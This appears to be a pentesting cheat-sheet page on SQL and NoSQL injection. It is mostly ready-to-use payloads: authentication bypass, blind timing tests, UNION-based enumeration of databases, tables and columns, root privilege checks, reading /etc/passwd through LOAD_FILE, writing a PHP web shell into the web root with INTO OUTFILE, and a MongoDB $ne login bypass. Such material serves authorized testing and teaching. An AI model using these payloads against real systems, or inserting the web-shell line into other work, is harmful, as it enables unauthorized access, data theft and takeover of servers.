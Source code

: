 ```yaml
---
icon: syringe
---
```


# SQLi

## <mark style="color:orange;">`MySQL`</mark>

{% hint style="info" %}
### <mark style="color:green;">`Python`</mark>&#x20;

* <mark style="color:purple;">**Doesn't need**</mark>**&#x20;**<mark style="color:orange;">**`;`**</mark>**&#x20;**<mark style="color:purple;">**at the end.**</mark>

***

### <mark style="color:orange;">`PHP`</mark>&#x20;

### <mark style="color:purple;">Authentication Methods:</mark>

1. <mark style="color:red;">**`Querying for matching username and password`**</mark><mark style="color:purple;">:</mark>
   * <mark style="color:purple;">This method involves running an SQL query that looks for rows where both the</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**username**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">and</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**password (or password hash)**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">match the user's input.</mark>
   * <mark style="color:purple;">If any rows are returned (meaning a match is found), the user is allowed to log in.</mark>
2. <mark style="color:red;">**`Ensuring exactly one result`**</mark><mark style="color:purple;">:</mark>
   * <mark style="color:purple;">The query looks for matching</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**username**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">and</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**password**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">(or hash), but it only allows login if</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**exactly one result**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">is returned.</mark>
3. <mark style="color:red;">**`Querying based on username, then checking the password hash separately`**</mark><mark style="color:purple;">:</mark>
   * <mark style="color:purple;">Query the database based</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**only on the username**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">(without initially checking the password) and retrieving the user's</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**password hash**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">from the database.</mark>
   * <mark style="color:purple;">Once the username is found, the password hash is compared to the one entered by the user.</mark>
{% endhint %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass" %}
Auth Bypass
{% endembed %}

***

{% hint style="info" %}
### <mark style="color:purple;">Recon</mark>

{% code title="Basic test" %}
```sql
' or 1=1-- -
```
{% endcode %}

{% code title="Test for blind injection" %}
```sql
' OR SLEEP(5) -- 
```
{% endcode %}

### <mark style="color:purple;">Union</mark>

* <mark style="color:purple;">Find the number of columns:</mark>

```sql
' order by 1-- -
```

```sql
' order by 1,2-- -
```

* <mark style="color:purple;">Detect the number of column using</mark> <mark style="color:orange;">**`Union`**</mark><mark style="color:purple;">:</mark>

```sql
' union select 1-- -
```

```sql
' union select 1,2-- -
```

```sql
' union select 1,2,3-- -
```

```sql
' union select 1,2,3,4-- -
```

* <mark style="color:purple;">Once you know the number of columns:</mark>

{% code title="Current database" %}
```sql
' union select 1,2,3,database()--
```
{% endcode %}

{% code title="Database version" %}
```sql
' UNION select 1,@@version,3,4-- -
```
{% endcode %}

{% code title="Current User" %}
```sql
' UNION SELECT 1,user(),3,4-- -
```
{% endcode %}

{% code title="Concatenation" overflow="wrap" %}
```sql
' union select 1,2,3,concat(column1, ':', column2, ':', column3, ':', column4) from user-- -
```
{% endcode %}

#### <mark style="color:orange;">`Information_schema`</mark>

* <mark style="color:purple;">If you want to know how many databases there are:</mark>

{% code title="Information Schema" overflow="wrap" %}
```sql
' union select 1,2,3,concat(schema_name, ':') from information_schema.schemata-- -
```
{% endcode %}

* <mark style="color:purple;">To look how many tables in a database:</mark>

{% code overflow="wrap" %}
```sql
' union select 1,2,3,concat(table_name, ':') from information_schema.tables where table_schema = 'database'-- -
```
{% endcode %}

* <mark style="color:purple;">To look how many columns in a table:</mark>

{% code overflow="wrap" %}
```sql
' union select 1,2,3,concat(column_name, ':') from information_schema.columns where table_name = 'table'-- -
```
{% endcode %}

* <mark style="color:purple;">To look the content of the columns:</mark>

{% code overflow="wrap" %}
```sql
' union select 1,2,3,concat(column1, ':', column2, ':', column3, ':', column4) from user-- -
```
{% endcode %}

### <mark style="color:purple;">Privileges</mark>

{% code title="Checks admin privileges" overflow="wrap" %}
```sql
' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```
{% endcode %}

{% code title=" Extracting privilege details of the root user" overflow="wrap" %}
```sql
' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```
{% endcode %}

{% code title="Find which directories can be accessed" overflow="wrap" %}
```sql
' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```
{% endcode %}

### <mark style="color:purple;">File Injection</mark>

{% code title="Read local file" overflow="wrap" %}
```sql
' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```
{% endcode %}

{% code title="Write a string to a local file" overflow="wrap" %}
```sql
`select 'file written successfully!' into outfile '/var/www/html/proof.txt
```
{% endcode %}

{% code title="Creates a webshell" overflow="wrap" %}
```sql
' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```
{% endcode %}
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:purple;">Blind</mark>

* <mark style="color:purple;">Ask questions to application; this query asks if there is any user starting by</mark> <mark style="color:orange;">**`a`**</mark><mark style="color:purple;">:</mark>

```sql
UNION select user,2,3 from mysql.user where user like 'a%'-- -
```
{% endhint %}

***

## <mark style="color:orange;">`NoSQL`</mark>

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#authentication-bypass" %}
PayloadAllThings
{% endembed %}

{% hint style="info" %}
### <mark style="color:purple;">Login Bypass</mark>

* <mark style="color:purple;">With</mark> <mark style="color:orange;">**`Content-Type: application/x-www-form-urlencoded`**</mark> <mark style="color:purple;">try:</mark>

```json
user=admin&password[$ne]=wrongpassword
```

* <mark style="color:purple;">Set the</mark> <mark style="color:orange;">**`Content-Type`**</mark> <mark style="color:purple;">to</mark> <mark style="color:orange;">**`application/json`**</mark> <mark style="color:purple;">on the</mark> <mark style="color:orange;">**`POST`**</mark> <mark style="color:purple;">request</mark>

```json
{"user": "admin", "password": {"$ne": "wrongpassword"}}
```
{% endhint %}

